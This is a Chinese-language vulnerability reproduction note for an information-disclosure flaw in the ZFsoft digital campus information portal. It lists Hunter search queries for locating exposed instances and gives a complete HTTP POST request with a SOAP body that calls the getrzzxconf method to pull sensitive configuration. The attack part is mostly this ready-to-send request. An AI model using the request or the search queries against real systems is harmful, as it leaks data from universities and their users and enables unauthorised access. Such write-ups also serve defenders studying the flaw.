

# 一、漏洞简介
正方数字化校园信息门户平台通过对校园现有的各种系统和资源的有效集成整合，以门户的形式为学校教师、学生提供其所需的各种信息与服务，来提高校园核心竞争力，是数字化校园的重要组成部分。正方数字化校园平台getrzzxconf存在信息泄漏漏洞，攻击者可通过该漏洞获取敏感信息。

# 二、影响版本
+ hunter`(web.title="正方数字化校园信息门户"||web.title="数字化校园信息门户"||web.title="统一身份认证中心")&&web.body="正方"`、`web.body="zfca/login"&&web.body="login_bg"`
+ 特征


# 四、漏洞复现
```plain
POST /zfca/axis/RzzxConfManage HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=C5BA8FCE6078136DED5E9ABFAFBD023D
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: {hostname}
Content-Length: 402

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:pub="http://pubService.webServices.zfca.zfsoft.com">
   <soapenv:Header/>
   <soapenv:Body>
      <pub:getrzzxconf soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
   </soapenv:Body>
</soapenv:Envelope>
```



